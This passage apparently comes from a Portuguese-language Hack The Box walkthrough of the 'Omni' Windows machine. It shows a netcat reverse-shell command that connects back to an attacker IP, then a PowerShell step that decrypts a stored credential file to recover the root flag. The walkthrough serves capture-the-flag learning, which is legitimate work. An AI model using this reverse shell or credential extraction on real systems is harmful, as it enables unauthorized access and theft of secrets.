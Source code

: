 ![web administrator logged](Assets/HTB-Windows-Easy-omni/web-administrator.png)

Agora podemos estabelecer um reverse shell com o mesmo binário do nc64.exe já transferido

```powershell
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

![administrator reverse shell](Assets/HTB-Windows-Easy-omni/administrator-reverse-shell.png)

E para a flag root.txt, vamos usar outra vez a mesma técnica para extrair o campo Password do ficheiro de Credencial do Powershell.

```powershell
type root.txt  # As propriedades são ainda as mesmas: 'UserName' e 'Password'
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
#> 5dbdce5569e2c47.................    (Esta é a flag parcial de root.txt)
```
